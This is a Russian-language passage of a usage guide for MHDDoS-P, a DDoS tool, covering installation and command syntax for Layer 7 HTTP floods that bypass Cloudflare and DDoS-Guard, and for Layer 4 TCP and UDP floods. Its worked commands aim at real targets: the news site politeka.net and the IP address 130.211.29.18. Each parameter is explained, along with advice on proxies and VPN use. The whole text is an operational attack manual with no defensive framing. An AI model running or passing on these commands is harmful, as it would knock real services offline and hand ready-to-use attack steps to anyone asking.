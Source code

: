 * python3 -m pip install -r requirements.txt

![https://github.com/BionecX/mhddos_p_docs/blob/main/images/ph_MHDDoS-P_-03-13.md_4.png](https://github.com/BionecX/mhddos_p_docs/blob/main/images/ph_MHDDoS-P_-03-13.md_4.png)

## Готово! Теперь у нас на руках прокаченный MHDDoS, как им теперь пользоваться?

## Атака на Layer 7 (Уровень приложений)

Атаку на этом уровне можно провести успешно, если вы знаете какое средство "защиты" используется и для данного средства есть метод атаки в самом MHDDoS (Например, cfb для Cloudflare, dgb для DDoS-Guard, и т.д.)

Шаблон команды __(VPN не требуется)__:

   python3 runner.py <__Цель__> --http-methods <__Метод__> -t <__Угрозы__> --rpc <__Подключения__> -p <__Обновление__> --debug

Где:

* Цель – Это ссылка в формате https://example.com
* Метод (--http-methods) – Один из методов MHDDoS (CFB, DGB, BYPASS, GET  и т.д., подробнее о методах в нашем туториале).
* Угрозы (-t) – Количество «зловердных» запросов/пакетов на цель.
* Подключения(--rpc) – Количество запросов, отправляемых на 1 прокси-сервер, после чего прокси-сервер транслирует эти запросы на цель.
* Обновление (-p) – Период времени в секундах, через который ваше соединение с прокси-серверами будет обновляться (прокси-серверы имеют свойства падать, сбрасывать соединение и т.д.). По умолчанию 300 секунд.
* --debug – Нужен для того, чтобы мы видели лог атаки.

Финальная команда на цель https://politeka.net/ будет выглядеть так: 

* python3 runner.py https://politeka.net/ --http-methods dgb -t 1000 --rpc 100 -p 300 --debug

После запуска нужно какое-то время подождать (около 1-2 минут) пока установится соединение с прокси-серверами.

## Атака на Layer 4 (Транспортный уровень, p2p)

Атака на этом уровне может быть успешной, если у вас на руках есть серверы атакуемой цели, которые находятся за "защитой". В таком случае вы атакуете сервер напрямую по ip-адресу. По синтаксису здесь всё также, как и на Layer 7 только цель требуется указывать в другом формате:

__Для атаки TCP Flood (VPN не требуется):__

Указываем цели в формате tcp://IP:port, а в ключе --http-methods указываем TCP, пример команды: 

* python3 runner.py tcp://130.211.29.18:80 -t 1000 -p 300 --rpc 50 --http-methods TCP --debug

__Для атаки UDP Flood (VPN обязателен):__

Указываем цели в формате udp://IP:port, а в ключе --http-methods указываем UDP, пример команды: 

* python3 runner.py udp://130.211.29.18:80 -t 1000 -p 300 --rpc 50 --http-methods UDP --debug

